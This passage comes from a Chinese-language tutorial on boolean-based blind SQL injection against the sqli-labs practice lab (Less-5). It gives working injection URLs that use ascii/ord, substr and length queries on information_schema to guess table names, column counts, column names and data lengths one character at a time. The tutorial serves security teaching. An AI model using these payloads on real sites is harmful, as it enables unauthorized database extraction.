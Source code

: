 若需要猜测第二张表怎么办？

把limit 0,1修改为limit 1,1就可以查询第二张表的长度了。第二张表的长度是8位，可以修改后进行测试。

#### 3.3.5.7.**猜测数据库表名**

如何猜测第一张表的第一个字母？

第一个表是emails，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+

![img](https://s2.loli.net/2023/03/12/IDiBGp7KjcwmOF4.jpg) 

如何猜测第二张表的第二个字母？

第二个表是referers，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),2,1))=101--+

![img](https://s2.loli.net/2023/03/12/OsGkDfE2ZU4zngP.jpg) 

修改limit 1,1 来控制第几个表，修改后面的2,1来控制第几个字符。

#### 3.3.5.8.**猜测数据库列的数量**

在users中存在id、username、password字段，0，1是第一个所以是等于2。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2--+

![img](https://s2.loli.net/2023/03/12/6ueACI2PvT8ychY.jpg) 

#### 3.3.5.9.**猜测数据库列名**

如何猜测第二列第一个字母？

在users中第二列是username所以第一个就是u，也就是117。

最后面的1，1），1，1 第一个1控制第几列，从0开始。第三个1控制字段第几个字母。从1开始。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117--+

![img](https://s2.loli.net/2023/03/12/a71hQInCTPB4gLe.jpg) 

如何猜测第三列第三个字母？

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select%20column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),3,1))=115--+

![img](https://s2.loli.net/2023/03/12/TY9EaiZBz68SxNJ.jpg) 

#### 3.3.5.10.**猜测某字段数据的长度**

判断username中第一行数据的长度，username第一行是dumb是4位，所以返回页面的正常的。
